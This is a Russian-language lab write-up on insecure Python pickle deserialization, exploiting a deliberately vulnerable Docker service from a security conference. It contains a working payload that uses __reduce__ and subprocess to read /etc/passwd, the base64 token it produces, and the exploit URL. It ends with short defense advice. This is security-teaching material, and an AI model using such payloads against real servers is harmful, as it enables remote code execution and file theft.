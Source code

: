 # Deserialization (Python) 

# Описание

Сериализация -- процесс перевода какой-либо структуры данных в последовательность бит, пригодную для хранения в файлах или передачи данных по сети. Десериализация -- процесс восстановления начального состояния структуры из последовательности. 

# Уязвимость 

В качестве объекта для сериализации можно записать пользовательские данные, которые могут вызвать выполнение методов из уязвимых библиотек. С помощью уязвимых библиотек можно выполнить произвольный код. При этом стоит учитывать, что можно сериализовать только данные, но не код.

# Детектирование 

Проверить исходный код. Искать импортируемые модули типа cpickle, искать точки загрузки сериализованных объектов и смотреть, доступна ли пользователю передача сериализованных объектов.


# Уязвимый сервис

## Развертывание

Собираем и запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser). 
В данном примере уязвимый сервис будет находиться на http://picle.lab

## Обзор

Сервис имеет следующий функционал:
1. set your name, например http://pickle.lab/?name=pwn.pas
2. "Посмотреть на себя", например http://127.0.0.1:9090/pydeser?sess=Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAwCihjbWFpbgpVc2VyCnAxCmNfX2J1aWx0aW5fXwpvYmplY3QKcDIKTnRwMwpScDQKKGRwNQpTJ2lkJwpwNgpJNzEzNjMKc1MnbmFtZScKcDcKVnB3bi5wYXNzCnA4CnNiLg==

# Эксплуатация

## Шаг 1

Используем следующий код для генерации серелиазованного объекта

```python
import cPickle
import base64

class Evil(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (('cat', '/etc/passwd',),))

e = Evil()
evil_token = base64.b64encode(cPickle.dumps(e))
print "Your Evil Token : %s" % (evil_token, )
```

Результат:

```
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=
```

## Шаг 2

Переходим на http://pickle.lab/pydeser?sess= и для параметра sess подставляем полученный объект на шаге 1

`http://pickle.lab/pydeser?sess=Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=`

Результат

![](img/pickle_1.png)

# Защита

1. Не десериализовать объекты из недоверенных источников.
2. Запретить пользователям загрузку объектов для десериализации.

# Ущерб

Подмена объекта десериализации потенциально может привести к удалённому выполнению кода на сервере.


# Ссылки

Docker container: https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser

Материалы:
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20deserialization/Python.md
- https://docs.python.org/2/library/pickle.html#pickling-and-unpickling-extension-types
- https://habr.com/ru/post/186608/
- http://qaru.site/questions/1650451/how-reduce-function-exactly-works-in-case-of-pickle-module
- https://github.com/f47h3r/exploit_code/blob/master/graphite_pickle_exploit.py
